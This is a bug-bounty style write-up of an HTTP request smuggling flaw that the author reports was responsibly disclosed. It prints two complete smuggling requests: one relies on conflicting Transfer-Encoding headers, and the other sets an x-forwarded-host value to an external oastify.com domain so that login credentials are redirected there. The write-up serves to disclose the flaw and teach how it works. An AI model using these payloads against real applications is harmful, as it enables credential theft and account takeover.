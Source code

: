 # Stealing Login Credentails using HTTP Request Smuggling

### Introduction

In this blog post, I will discuss a significant security vulnerability I discovered in a specific target. The vulnerability, called HTTP request smuggling, provided me with the ability to manipulate the application's behavior, potentially compromising user credentials. I responsibly reported this vulnerability to the application's development team, who took appropriate measures to address it. In this write-up, I will explain the nature of the vulnerability, its impact, and the steps taken for responsible disclosure.

## Description

The vulnerability I found in the target is an instance of HTTP request smuggling. It arises when an attacker can manipulate the application's interpretation of HTTP requests, leading to behaviors that differ from the intended ones. By exploiting this vulnerability, an attacker could gain unauthorized access to user credentials, potentially compromising their accounts.

### Confirmation of Vulnerability

To confirm the presence of the vulnerability, I crafted a malicious HTTP request using the following payload:

```
POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 91
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /robots.txt HTTP/1.1
X-Ignore: X
```

Instead of the expected response of "302," the application returned a "404" status code, indicating that the vulnerability was present.

![Screenshot 2023-05-16 at 12.07.05 PM(1).jpg](images/1.jpg)

### Exploiting the Vulnerability

Further investigation using param-miner extension revealed that the application accepts the **x-forwarded-for** header, which allowed me to manipulate the "Host" value in the response. With this information, I crafted a second request to redirect the base URL of the login form to a controlled domain, as demonstrated by the following payload:

```
POST /ENDPOINT HTTP/1.1
Host: [HOST]
Cookie: █████████
Content-Type: application/x-www-form-urlencoded
Content-Length: 421
Connection: keep-alive
Transfer-Encoding: chunked
Transfer-encoding: identity

2b
username=admin&password=admin&login=SIGN+IN
0

GET /ENDPOINT HTTP/1.1
x-forwarded-host: gbvun9lgwxse701bwnjfn68snjtah25r.oastify.com
X-Ignore: X
```

This manipulation changed the base URL of the login request form to a malicious domain, allowing an attacker to intercept user credentials.

![Screenshot 2023-05-22 at 9.27.15 PM.png](images/2.png)

### Potential Impact

The impact of this vulnerability is severe. When a legitimate user logs in to the affected application, their credentials are unknowingly sent to the malicious domain controlled by the attacker. This could lead to unauthorized access, account takeover, or further compromise of sensitive data.